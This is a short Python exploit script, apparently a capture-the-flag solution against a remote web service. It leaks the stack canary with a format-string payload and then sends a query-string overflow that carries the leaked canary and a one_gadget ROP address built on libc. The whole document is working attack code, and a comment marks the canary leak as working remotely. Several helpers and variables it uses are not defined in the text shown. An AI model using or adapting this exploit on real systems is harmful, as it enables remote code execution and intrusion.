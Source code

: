```python
 
 
def leak_canary(): 
    register() 
    register('fuck') 
    register('empty') 
 
    number = 0x3000 + 0x30 # v1 <- remote 
    payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote 
 
    submit(payload, user='fuck') 
    submit('a' * 0x100) 
    submit('a' * (0x10), user='fuck') 
    view_submit(user='empty') 
 
def main(): 
    rop = p64(one_gadget + libc_base) 
    payload_key = 'a' * 0x100 + 'b' * 0x100 + 'a' * 8 + 'a' + urllib.parse.quote(p64(canary)[1:]) + 'x' * 24 + urllib.parse.quote(rop) 
    payload_value = 'p' * 0x108 
    exp_url = url + '?' + payload_key + '=' + payload_value 
    r = requests.get(exp_url) 
 
if __name__ == '__main__': 
    op = '' 
    if len(sys.argv) >= 2: 
        op = sys.argv[1] 
 
    if op == 'reg': 
        register() 
    elif op == 'canary': 
        leak_canary() 
    elif op == 'libc': 
        leak_libc() 
    else: 
        main() 
```